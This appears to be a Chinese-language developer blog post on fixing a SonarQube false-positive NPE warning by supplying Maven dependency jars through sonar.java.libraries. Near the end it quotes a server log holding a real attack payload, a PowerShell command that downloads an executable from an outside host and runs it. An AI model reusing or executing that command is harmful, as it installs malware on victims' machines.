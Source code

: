 +++
title = "Sonar扫描的NPE问题"
description = "Commons-lang StringUtils isNotBlank method still raise NPE"
tags = [
]
date = "2020-03-12"
topics = [
    "US"
]
+++

![](https://aws1.discourse-cdn.com/sonarsource/uploads/sscommunity/original/2X/3/318735b08e742b4bab065a9821caa48762a4c697.png)

直到我修改为这样的代码才通过——

```

public class DetectorImport {
    public String check1(Nonentity nonentity) {
        String s;
        if(nonentity == null) {
            s = null;
        }else {
            s = nonentity.getName();
        }
        if(s !=null) {
            s = s.replaceAll("（", "(");
        }
        return s;
    }
}

```

查到的几个相关问题——
[https://community.sonarsource.com/tags/c/bug/fp/7/java](https://community.sonarsource.com/tags/c/bug/fp/7/java)



[Sonarqube is raising false-positive NPE](https://community.sonarsource.com/t/sonarqube-is-raising-false-positive-npe/4515)

2019-07-19  

>I expect that nonNull implementation is in the another file than the main code. Unfortunately that’s the current limitation we have for this rule. If you move nonNull in the file, FP should disappear.
This problem can’t be fixed easily, so for now I suggest you to mark issue as FP in SonarQube UI.
Anyway thanks for reporting it.


[squid:S2259 : A “NullPointerException” could be thrown; “dc” is nullable here. While “dc” is checked as not null](https://community.sonarsource.com/t/squid-s2259-a-nullpointerexception-could-be-thrown-dc-is-nullable-here-while-dc-is-checked-as-not-null/2616)

[[JAVA] squid:S2259 False Positive with Utility methods](https://groups.google.com/forum/#!topic/sonarqube/aluTP63hfyA)
这里提到是支持apache commen的StringUtils包的。

> We currently support methods from commons-lang StringUtils ([v2](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringUtils.html), and [v3](https://www.google.com/url?q=https%3A%2F%2Fcommons.apache.org%2Fproper%2Fcommons-lang%2Fapidocs%2Forg%2Fapache%2Fcommons%2Flang3%2FStringUtils.html&sa=D&sntz=1&usg=AFQjCNHiDHLeUkFJvzevRg_dwUkvTbt8nA)), guava [preconditions](https://google.github.io/guava/releases/snapshot/api/docs/com/google/common/base/Preconditions.html#checkNotNull-T-), and java 8 methods from java.util.Objects (nonNull, isNull, requireNonNull). As we know how these methods behave, we are able to correctly handle such call and discard similar FPs. Of course, I don't want to force you using such libraries to make the analyzer happy. :)

report this on Sonar Community: [Commons-lang StringUtils isNotBlank method still raise NPE](https://community.sonarsource.com/t/commons-lang-stringutils-isnotblank-method-still-raise-npe/21517)


有人遇到了相同的问题，官方猜测是没有正确的配置`sonar.java.libraries` 

SonarQube上的确提示——
```
Bytecode of dependencies was not provided for analysis of source files, you might end up with less precise results. Bytecode can be provided using sonar.java.libraries property.
```

手动验证，将commons-lang3-3.7.jar添加到`sonar.java.libraries`参数里，问题解决。

---

下一步需要处理的方式——

>added the target “dependency:copy-dependencies” as part of the maven execution. This copied all the dependencies to the right location, then I set the property “-Dsonar.java.libraries=target/dependency” in our case.

将项目的依赖都复制到固定的目录，然后将这个目录传递给`sonar.java.libraries`参数。

[dependency:copy-dependencies](http://maven.apache.org/plugins/maven-dependency-plugin/copy-dependencies-mojo.html)的官方用法。

理论上这样就可以解决这个问题，需要验证的是多模块的项目的依赖是否可以全部正确复制到正确的目录下。

--- 

理论依据由别人提出

>added the target “dependency:copy-dependencies” as part of the maven execution. This copied all the dependencies to the right location, then I set the property “-Dsonar.java.libraries=target/dependency” in our case.

我的实践如下——


这个插件的官方[maven-dependency-plugin 使用文档](http://maven.apache.org/plugins/maven-dependency-plugin/usage.html)，根据[样例](https://maven.apache.org/plugins/maven-dependency-plugin/examples/copying-project-dependencies.html)如下——

```
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-dependency-plugin</artifactId>
    <version>3.1.2</version>
    <executions>
        <execution>
        <id>copy-dependencies</id>
        <phase>package</phase>
        <goals>
            <goal>copy-dependencies</goal>
        </goals>
        <configuration>
            <outputDirectory>${project.build.directory}/alternateLocation</outputDirectory>
            <overWriteReleases>false</overWriteReleases>
            <overWriteSnapshots>false</overWriteSnapshots>
            <overWriteIfNewer>true</overWriteIfNewer>
        </configuration>
        </execution>
    </executions>
</plugin>
```

这样有两个问题：  
- 在多模块下自定义的这个outputDirectory目录是相对目录，会将依赖的jar包复制到子模块对应的目录下；
- 根据这里的[解决方案](https://stackoverflow.com/a/7676673/1087122)使用变量`${session.executionRootDirectory}/target/`，可以强制将依赖包都复制到固定目录，但只能在执行 `mvn package`阶段才生效

这样导致执行了接近全生命周期的任务。

这里涉及到`phase`、`goal`的概念区别：[What are Maven goals and phases and what is their difference?](https://stackoverflow.com/questions/16205778/what-are-maven-goals-and-phases-and-what-is-their-difference)

>Life cycle is a sequence of named **phases**.  
>**Phases** executes sequentially. Executing a phase means executes all previous phases.

>**Plugin** is a collection of **goals** also called MOJO (**M**aven **O**ld **J**ava **O**bject).  
Analogy : Plugin is a class and goals are methods within the class.

[default Maven lifecycle bindings](http://maven.apache.org/guides/introduction/introduction-to-the-lifecycle.html#Built-in_Lifecycle_Bindings)这里定义了在各个“阶段”(phase)都会执行哪些“目标动作”(goals)

`mvn [plugin-name]:[goal-name] ` ，例如`mvn dependency:copy-dependencies`就是执行了插件`maven-dependency-plugin`定义的`copy-dependencies`动作。进一步，对应的configuration可以通过变量进行传参。

经验证，使用绝对路径地址指定outputDirectory的值是，可以将多模块的依赖统一复制到指定目录下。

所以，最终的**解决方案**为：

1. 直接执行goal，`mvn dependency:copy-dependencies -DoutputDirectory=absolute/path/to/lib/dir`将所有的依赖复制到指定目录，
2. 将上面的目录传递给sonar的`sonar.java.libraries`变量，例如 `-Dsonar.java.libraries=absolute/path/to/lib/dir/*.jar`


---



没想到我这小破站也被扫描了——
```
2020-03-09 13:48:49.794  INFO 2173 --- [p-nio-80-exec-3] org.apache.tomcat.util.http.Parameters   : Character decoding failed. Parameter [mail[#markup]] with value [ powershell (new-object System.Net.WebClient).DownloadFile('http://ero.bckl.ir/download.exe','%SystemRoot%/Temp/zjajlhxadgirori21058.exe');start %SystemRoot%/Temp/zjajlhxadgirori21058.exe] has been ignored. Note that the name and value quoted here may be corrupted due to the failed decoding. Use debug level logging to see the original, non-corrupted values.
 Note: further occurrences of Parameter errors will be logged at DEBUG level.
2020-03-10 03:44:19.910  INFO 2173 --- [p-nio-80-exec-7] o.apache.coyote.http11.Http11Processor   : Error parsing HTTP request header
 Note: further occurrences of HTTP request parsing errors will be logged at DEBUG level.

java.lang.IllegalArgumentException: Invalid character found in the HTTP protocol
	at org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:532) ~[tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:294) ~[tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:853) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1587) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149) [na:1.8.0_232]
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624) [na:1.8.0_232]
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at java.lang.Thread.run(Thread.java:748) [na:1.8.0_232]

```

